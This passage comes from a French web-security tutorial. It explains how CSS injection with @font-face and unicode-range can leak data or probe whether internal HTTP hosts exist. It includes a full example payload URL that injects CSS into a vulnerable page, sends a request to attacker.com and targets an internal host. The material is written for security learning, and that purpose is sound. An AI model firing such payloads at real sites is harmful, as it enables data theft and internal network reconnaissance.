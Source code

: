 <figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Il faut donc continuer l'attaque jusqu'à deviner l'identifiant et qu'aucune requête ne soit reçue par l'attaquant.

Cette technique rend également possible de scanner des hôtes (adresse IP ou nom de domaine) pouvant répondre à une requête HTTP. Ici, l'attaquant souhaite par exemple savoir si un serveur HTTP est accessible sur l'intranet de la victime :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-scanner-de-ressources.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=1);unicode-range:U%2b0045;}%23attacker{font-family:attack;}&url=https://internal.vulnerable.com/
```
{% endcode %}

Si tel est bien le cas, l'attaquant ne recevra pas de requête déclenchée par l'application du style CSS.

## Références

* [https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
* [https://x-c3ll.github.io/posts/CSS-Injection-Primitives/](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
